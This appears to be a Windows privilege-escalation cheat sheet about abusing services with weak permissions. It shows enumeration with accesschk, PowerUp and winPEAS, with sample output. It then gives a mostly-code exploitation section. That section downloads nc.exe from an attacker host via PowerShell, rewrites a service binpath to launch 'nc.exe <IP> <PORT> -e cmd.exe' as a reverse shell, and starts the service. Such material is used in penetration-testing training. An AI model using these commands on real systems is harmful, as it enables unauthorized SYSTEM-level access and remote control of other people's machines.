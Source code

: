 ```
# Find all services authenticated users have modify access onto
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

if SERVICE_ALL_ACCESS then vulnerable

# Find all weak folder permissions per drive.
accesschk.exe /accepteula -uwdqs Users c:\
accesschk.exe /accepteula -uwdqs "Authenticated Users" c:\

# Find all weak file permissions per drive.
accesschk.exe /accepteula -uwqs Users c:\*.*
accesschk.exe /accepteula -uwqs "Authenticated Users" c:\*.*
```

or

```
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking service permissions...

ServiceName   : daclsvc
Path          : "C:\Program Files\DACL Service\daclservice.exe"
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'daclsvc'
CanRestart    : True
```

or

```
winPEAS.exe

[+] Interesting Services -non Microsoft-(T1007)

daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
	YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles

[+] Modifiable Services(T1007)
	LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
	daclsvc: WriteData/CreateFiles
```

##### Exploitation

```
# Attacker
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/nc.exe', '.\nc.exe')
sc config <SERVICENAME> binpath= "<PATH>\nc.exe <IP> <PORT> -e cmd.exe"
sc start <SERVICENAME>
or 
net start <SERVICENAME>
```
